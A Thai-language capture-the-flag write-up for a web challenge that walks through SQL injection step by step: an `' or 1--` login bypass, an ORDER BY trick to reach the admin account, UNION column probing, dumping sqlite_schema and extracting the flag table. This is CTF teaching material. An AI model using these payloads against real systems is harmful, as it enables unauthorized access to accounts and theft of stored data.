

:::note
โจทย์ระดับ**ปานกลาง**ของหมวดหมู่ Web Application ที่มีคน Solve ได้น้อยมากถ้าเทียบกับข้อแรก
:::

ผมจำไม่ได้ว่าคำอธิบายโจทย์มันบอกมาว่ายังไง

แต่เมื่อเข้าเว็บไป จะมี Hint ให้ เมื่อเราดูโค้ดของเว็บ

วิธีก็คือ F12 หรือ คลิกขวาแล้วกดตรวจสอบ




### Hint
1. FLAG จะแบ่งเป็น 2 ส่วน
2. ส่วนแรกจะอยู่ในฐานข้อมูล
3. ส่วนสองจะโชว์เมื่อเราเข้าสู่ระบบในฐานะผู้ดูแลระบบ
4. ให้แหล่งข้อมูลเกี่ยวกับวิธีการ SQL Injection มาด้วย

ซึ่งเราก็รู้แล้วแน่ๆ แหละว่าต้อง SQL Injection

ซึ่ง Payload ที่ผมใช้ประจำเวลาเล่น ctf ก็คือ `' or 1--`

ความหมายคือ ถ้าการ Query ข้อมูลของระบบเป็นรูปแบบนี้
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password'
```

เมื่อเรา input ข้อมูล `$username` เป็น `' or 1--` และ `$password` เป็นอะไรก็ได้ ซึ่งผมจะกรอกเป็น `a` มันก็จะไปแทนที่ ตัวแปรนั้นเลย ตัวคำสั่ง `$query` สุดท้าย เลยได้กลายเป็น
```sql
SELECT * FROM users WHERE username = '' or 1--' AND password = 'a'
```
ซึ่งเราจะเห็นว่า ตัวอักษรหลังจากเลข 1 มันจะถูก comment ไว้ เนื่องจาก เครื่องหมาย `--` คือการ comment ทั้งบรรทัดหลังจากตัวมัน

ซึ่ง `1` ใน ภาษา SQL มันจะตีความว่าเป็น**จริง** และเราใช้ `or` เงื่อนไขมันเลยเป็นจริงตลอด แม้ว่าเงื่อนไขข้างหน้าจะเป็น `FALSE` ตลอดก็ตาม

พูดง่ายๆ ในภาษาตรรกศาสตร์มันก็คือ `FALSE or TRUE` ซึ่งมันก็คือ `TRUE` นั่นเอง

เมื่อผมกรอกเข้าไป


ระบบก็จะแจ้งมาว่า


แสดงว่า เรา SQL Injection ติดแล้ว แต่ทำไม เรายังไม่ได้ FLAG ส่วนที่สอง ในเมื่อระบบก็รู้แล้วว่าเราเข้าสู่ระบบได้แล้ว

longcat คงไม่ได้เป็นผู้ดูแลระบบแหละ

ผมก็เลยแก้ Payload ใหม่ เป็น `' or 1 ORDER BY 2--`

`ORDER BY 2` ที่ผมเพิ่มขึ้นมา มันหมายความว่า มันจะเรียงตาม column ที่ 2 ซึ่ง เมื่อผมเรียงแบบนี้ จึงบังเอิญเจอ account ผู้ดูแลระบบเลย (จริงๆผมก็ไล่ตั้งแต่เลข 1)


เราได้ FLAG ส่วนสองแล้ว `641b630624f2c6c9}`

มาหาส่วนแรกกัน ซึ่งที่โจทย์ใบ้มาคือ เราต้องไปหาใน database

วิธีการก็คือ เราจะ union ข้อมูลมันออกมา

ข้ออ้างอิงพื้นฐานการ union ไว้ที่นี่แล้วกัน https://www.thaicreate.com/tutorial/sql-union.html

เรามาเริ่มกันเลย
ผมจะปรับ Payload เป็น `' AND 0 union select 1--` ก็คือ เงื่อนไขส่วนหน้า จะเป็น `FALSE` ทุกกรณี เนื่องจาก `AND 0` ที่ผมเพิ่มขึ้นมา เพราะ `0` ใน SQL มันตีความเป็น**เท็จ**นะ

เปรียบเป็นตรรกศาสตร์ ก็คือ `WHATEVER and FALSE` ก็จะกลายเป็น `FALSE` เสมอ ไม่ว่าข้างหน้าจะเป็นอะไรก็ตาม

เมื่อเราจินตนาการเป็นคำสั่ง SQL เต็มๆ จะได้เป็น

```sql
SELECT * FROM users WHERE username = '' AND 0 union select 1--' AND password = 'a'
```

ซึ่งเงื่อนไขของการ union ก็คือ เราต้อง union column ให้ครบเท่าข้างหน้า แต่เราไม่รู้ว่า column ข้างหน้าอะ มันมีกี่ column ซึ่งผมก็เลยเพิ่มจำนวน column ท่ีเรา union เข้าไปเพิ่มขึ้นเรื่อยๆ จนมันหาย error

```
' AND 0 union select 1--     error
' AND 0 union select 1,2--   error
' AND 0 union select 1,2,3-- fine
```


โอเค ผมเจอแล้ว มีทั้งหมด 3 column และเราจะพบว่า column ที่สอง จะถูกพ่นออกมาแสดงผลให้เรา

แต่ถ้าเราไม่เชื่อในตัวเอง ลองเปลี่ยนดู

```sql
' AND 0 union select 1,"biu2 pwned",3--
```


ของแทร่ๆๆ

ต่อไป ผมจะดูโครงสร้างของฐานข้อมูลนี้​ ซึ่งผมหวังว่าจะเจอที่เก็บ FLAG ที่แท้จริง
ด้วยการหาจาก sqlite_schema

sqlite_schema คือที่เก็บข้อมูลโครงสร้างของฐานข้อมูล SQLite

ซึ่งจะมี column ชื่อ sql เป็นที่ๆ เก็บคำสั่ง SQL ที่ใช้สร้างโครงสร้างต่างๆขึ้นมา

ถ้าไม่เข้าใจว่ามันคืออะไร ไปตามได้ที่ https://www.sqlite.org/schematab.html

```sql
' AND 0 union SELECT 1,sql,3 FROM sqlite_schema--
```


เราก็จะเจอเข้ากับ


ที่เก็บ FLAG ส่วนแรก ซึ่งจะอยู่ที่ ตาราง flag และ column flag

เราก็มาเอา FLAG ส่วนแรกกันเลย จะได้ Payload เป็น

```sql
' AND 0 union SELECT 1,flag,3 FROM flag--
```


เย่ ได้ส่วนแรกแล้ว `THCTT24{48c736ac07c5e803`

เราก็นำมาต่อกันได้เลย

`THCTT24{48c736ac07c5e803641b630624f2c6c9}`